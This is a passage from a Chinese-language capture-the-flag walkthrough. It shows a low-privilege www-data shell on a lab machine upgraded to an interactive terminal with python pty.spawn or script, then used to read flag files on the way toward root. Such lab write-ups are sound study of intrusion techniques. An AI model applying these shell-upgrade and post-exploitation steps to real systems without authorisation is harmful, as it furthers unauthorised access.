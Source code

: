 显示

```
www-data@haclabs:/home/yash$ su haclabs
su haclabs
su: must be run from a terminal
```

这时候可以使用伪终端的方法：

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

或者

```
script -qc /bin/bash /dev/null
```

![image-20250717105036859](./../../_media/image-20250717105036859.png)







#### flag2.txt

```
cat /home/haclabs/flag2.txt
```

找到一个flag2.txt

![image-20250717104134769](./../../_media/image-20250717104134769.png)

#### flag3.txt

```
cd /root
```
